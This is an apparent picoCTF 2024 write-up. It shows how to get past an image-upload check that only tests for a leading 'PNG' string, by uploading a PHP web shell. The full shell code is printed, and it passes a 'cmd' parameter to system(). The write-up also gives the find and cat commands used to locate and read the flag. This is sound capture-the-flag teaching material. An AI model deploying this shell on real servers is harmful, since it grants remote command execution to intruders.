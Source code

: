 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#browser_webshell_solvable_<br>

I found a web app that can help process images: PNG images only!

## Solution

At first, I tried uploading a PNG file to see what happens on the website and in Burp Suite.

![image](https://github.com/user-attachments/assets/65d68ea5-46d5-471b-a432-3da81d544cca)<br>
**This is what I got from the website: it says the uploaded file is a valid PNG file. Now it is time to investigate how the system defines a PNG file.*
<br>

![image](https://github.com/user-attachments/assets/707cc9a2-1e0d-4cc9-aa22-1205b33da0e3)<br>
**This is the result I got from Burp Suite. From the raw data shown, we can see that the system defines PNG files by checking the first few characters, "PNG".*
<br>

Hence, through observation, we can create a PHP script by adding 'PNG' as the first few characters and then insert the script into the system folder. We believe the uploaded files will be stored in the 'uploads' folder, which can be easily accessed through the site. <br>

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
**This is the script that we will use. Insert this php script into a notepad and save as ***flag.png.php***. Then upload this file to the system and we'll get a successful message.*

To get use of the script inserted, we then go to the website to get the file uploaded by adding the uploaded file path ***/uploads/flag.png.php*** to the site ***http://atlas.picoctf.net:60355***. We will use this field to enter a command `find / -name '*.txt'` to list down all the txt file.<br>

![image](https://github.com/user-attachments/assets/1615bc9d-cf02-43e7-8dce-a983f9b04bd9)<br>
**This is the list of all the .txt files. There is a suspicious file name: /var/www/html/GAZWIMLEGU2DQ.txt. So, I decided to open it and take a look by running the command cat /var/www/html/GAZWIMLEGU2DQ.txt.*

![image](https://github.com/user-attachments/assets/710971f2-22f1-41e2-8325-cb6f19784c64)<br>
**Here is the flag*
